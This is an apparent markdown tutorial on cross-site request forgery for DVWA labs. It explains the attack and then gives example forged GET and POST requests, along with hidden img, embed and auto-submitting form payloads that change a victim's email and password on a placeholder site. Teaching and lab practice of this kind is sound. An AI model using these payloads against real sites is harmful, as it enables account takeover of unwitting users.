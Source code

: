 ## 1. CSRF Attack

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```
